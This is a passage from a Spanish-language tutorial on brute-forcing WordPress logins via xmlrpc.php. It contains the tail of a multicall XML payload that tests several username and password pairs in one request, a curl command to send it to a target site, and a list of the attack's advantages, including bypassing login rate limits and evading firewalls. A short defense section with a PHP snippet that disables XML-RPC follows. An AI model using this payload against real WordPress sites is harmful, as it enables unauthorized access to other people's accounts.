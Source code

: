 ```xml
                          <array>
                            <data>
                              <value><string>editor</string></value>
                              <value><string>editorpass</string></value>
                            </data>
                          </array>
                        </value>
                      </data>
                    </array>
                  </value>
                </member>
              </struct>
            </value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodCall>
```

📌 **Explicación:**

- Esta plantilla prueba **varios usuarios** (`admin`, `user`, `editor`) con **varias contraseñas** en una sola petición.
- Se pueden agregar más combinaciones fácilmente.

📌 **Uso:**  
Guárdalo como `multi_user_brute.xml` y envíalo con:

```bash
curl -X POST -d @multi_user_brute.xml https://ejemplo.com/xmlrpc.php
```

---

## **🚀 Ventajas de Usar XML-RPC para Fuerza Bruta**

✅ **Mucho más rápido** que los ataques a `/wp-login.php`.  
✅ **Evita algunas protecciones básicas** que limitan intentos en el login normal.  
✅ **Reduce consumo de ancho de banda** (menos peticiones).  
✅ **Puede pasar desapercibido** en algunos firewalls mal configurados.

---

## **🛡️ Cómo Defenderse de Estos Ataques**

Si eres administrador de WordPress, **debes protegerte contra estos ataques**. Aquí algunas soluciones:

🔴 **Desactivar XML-RPC si no lo necesitas:**

```php
add_filter('xmlrpc_enabled', '__return_false');
```
